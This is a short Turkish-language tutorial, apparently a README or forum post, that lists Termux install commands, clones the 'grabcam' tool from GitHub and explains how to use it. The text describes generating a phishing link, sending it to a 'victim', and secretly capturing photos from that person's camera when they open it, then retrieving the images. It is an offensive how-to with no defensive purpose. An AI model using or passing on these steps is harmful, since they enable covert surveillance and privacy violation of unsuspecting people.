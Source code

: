 1) apt-get update -y
2) apt-get upgrade -y
3) pkg install python -y
4) pkg install python2 -y
5) pkg install git -y
6) pip install lolcat
-) pkg install wget
7) git clone https://github.com/noob-hackers/grabcam
ls
8) cd grabcam
ls
10) bash grabcam.sh
EVET KARŞIMIZA GRABCAM YAZILI EKRAN GELDİ
KOD SORUYOR VE BURAYA 02 YAZICAZ YAZMADAN ÖNCE MOBİL Veriyi ve HOTSPOT'U(internet paylaşımı) UNUTMAYINIZ
OLUŞTURDUKTAN SONRA İSE ŞU BÖLÜME SAYFAMIZ GELİYOR
VE KURBANIMIZA YOLLUYOR GİRDİGİ ZAMAN FOTOĞRAF ÇEKMEYE BAŞLIYOR. VE ŞU YAZI GELİYOR (Cam file received!)
ÇEKTİGİ FOTOLARI GÖRMEK İÇİN İSE
Ctrl+C YAPIP ÇIKIYORUZ
SONRA İSE ls KOMUTUNU YAZIYORUZ VE .png OLAN FOTOGRAFIN İSMİNİ KOPYALIYORUZ SONRA İSE ŞU KODU YAZIYORUZ
mv helloboys.png /sdcard
VE DOSYALARIMIZA GELİYOR

(Direct link:helloboys.io <-mesela )

LİNKİ OLUŞTURURKEN MOBİL VERİYİ VE HOTSPOT(paylaşım) AÇMANIZ LAZIM.
